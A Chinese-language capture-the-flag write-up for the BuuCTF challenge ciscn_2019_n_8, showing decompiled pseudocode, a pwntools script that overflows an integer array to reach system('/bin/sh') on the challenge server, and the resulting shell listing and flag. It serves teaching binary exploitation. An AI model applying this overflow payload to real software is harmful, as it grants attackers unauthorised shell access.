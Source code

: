```yaml
---
tags:
  - BuuCTF
  - 新手
  - 数组溢出
---
```


# ciscn_2019_n_8

## 前置工作

直接用最简单的脚本先进入靶机，随便输入点东西（这种脚本相当于在 `nc` 了）

```python
from pwn import *
r = remote("node4.buuoj.cn", 29477)
r.interactive()
```

输出如下

```
What's your name?
ls
ls, Welcome!
Try do something~
```

看得出来这道题不太好混，那就下载附件

用 `checksec` 检查下程序位数，发现是 32 位，用 IDA（IDA 32）打开附件，直接找到 `main` 函数，按 F5 反汇编，得到如下伪代码

目标很明确，结合伪代码中我自己写的注释可知如何提权（即让程序走到 `system("/bin/sh")`）

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp-14h] [ebp-20h]
  int v5; // [esp-10h] [ebp-1Ch]

  var[13] = 0;
  var[14] = 0;
  init();
  puts("What's your name?");
  __isoc99_scanf("%s", var, v4, v5); // 数组 var 是从用户输入中得到的
  if ( *(_QWORD *)&var[13] )
  {
    if ( *(_QWORD *)&var[13] == 17LL ) // 如果数组的第 13 位等于十六进制的 17
      system("/bin/sh"); // 提权，后面就能执行 ls，cat 等命令
    else
      printf(
        "something wrong! val is %d",
        var[0],
        var[1],
        var[2],
        var[3],
        var[4],
        var[5],
        var[6],
        var[7],
        var[8],
        var[9],
        var[10],
        var[11],
        var[12],
        var[13],
        var[14]);
  }
  else
  {
    printf("%s, Welcome!\n", var);
    puts("Try do something~");
  }
  return 0;
}
```

## 填充数组

如果想要让 `var[13]` 为十六进制的 17，那么必须先将前面 `var[0]` ~ `var[12]` 全部填满，那么我们可以写出如下 Payload

```python
from pwn import *
r = remote("node4.buuoj.cn", 29477) # 远程连接
payload = b"0"*13*4 # 填充 var[0] ~ var[12]，一共 13 个位置，每个位置 4 个字节（因为是 int 类型）
payload += p32(17) # 将 var[13] 赋为在 32 位程序下的十六进制的 17
r.sendline(payload) # 发送 Payload
r.interactive() # 交互接管
```

## 攻入靶机

运行程序，此时已经提权，我们可以直接输入命令 `ls`，输出如下

```
bin
boot
dev
etc
flag
home
lib
lib32
lib64
media
mnt
opt
proc
pwn
root
run
sbin
srv
sys
tmp
usr
var
```

发现有 `flag`，于是我们输入 `cat flag` 命令，最终结果如下

```
flag{d1808d00-2a39-4d18-a09b-647ba54fb495}
```